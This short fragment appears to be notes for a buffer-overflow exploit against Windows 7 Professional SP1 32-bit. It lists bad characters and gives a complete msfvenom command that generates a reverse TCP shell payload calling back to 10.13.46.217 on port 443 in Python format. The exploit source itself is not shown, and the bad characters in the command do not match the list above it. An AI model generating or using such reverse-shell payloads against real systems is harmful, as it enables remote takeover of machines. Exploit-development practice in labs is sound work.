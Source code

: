 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\xa9\xcd\xd4

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\0x00\0x0a\0x0d" -v esp -f python
